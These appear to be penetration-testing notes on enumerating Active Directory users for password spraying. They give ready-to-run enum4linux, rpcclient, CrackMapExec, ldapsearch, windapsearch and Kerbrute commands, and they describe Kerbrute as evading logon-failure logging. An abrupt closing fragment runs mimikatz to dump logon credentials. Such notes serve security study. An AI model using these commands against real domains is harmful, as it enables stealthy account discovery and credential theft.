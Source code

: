 PowerView give us the same output as `net accounts`, but also reveal if the password complexity is enabled.

**We should avoid locking accounts. If the maximun tries are 5, try only 2-3 before stopping.**

## User List 

We can get a valid list of users;
- SMB NULL retrieving a complete list of domain users
- LDAP anonymous bind to pull down the domain user list
- **Kerbrute** to validate users from a wordlist, like [this](https://github.com/insidetrust/statistically-likely-usernames) or from a [tool](https://github.com/initstring/linkedin2username)
- With a LLMNR/NBT-NS poisoning using Responder

### SMB NULL 

We can use **enum4linux** with the flag `-U`:
```console
zero@pio$ enum4linux -U <IP> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

The `enumdomusers` from rpcclient:
```console
zero@pio$ rpcclient -U "" -N <IP> 
rpcclient $> enumdomusers
```

Or CrackMapExec with the flag `--users`. This will also show the **badpwdcount** (invalid login attempts), also the **baddpwdtime** (date and time of the last bad password attempt), so we can see how close we are from a **badpwdcount** reset.
```console
zero@pio$ crackmapexec smb <IP> --users
```

### LDAP Anonymous

We can use [windapsearch](https://github.com/ropnop/windapsearch) or [ldapsearch](https://linux.die.net/man/1/ldapsearch):
```console
zero@pio$ ldapsearch -h <IP> -x -b "DC=<DOMAIN>,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

**windapsearch** make it easy. Use the `-u` flag to provide a blank username and `-U` to retrieve the users:
```console
zero@pio$ ./windapsearch.py --dc-ip <IP> -u "" -U
```

### Kerbrute 

If we don't have access we can use **Kerbrute** to enumerate valid AD users. Kerberos Pre-Authentication is faster and stealthier than the others methods. This doesn't generate Windows events or logon failure. The tool send TGT to the domain controller, if the KDC responds with `PRINCIPAL UNKNOWN` the user is invalid. We can use the userlist [jsmith.txt](https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/jsmith.txt). The wordlist [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) is a good source for Kerbrute.
```console
zero@pio$ kerbrute userenum -d <DOMAIN> --dc <IP> jsmith-txt
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm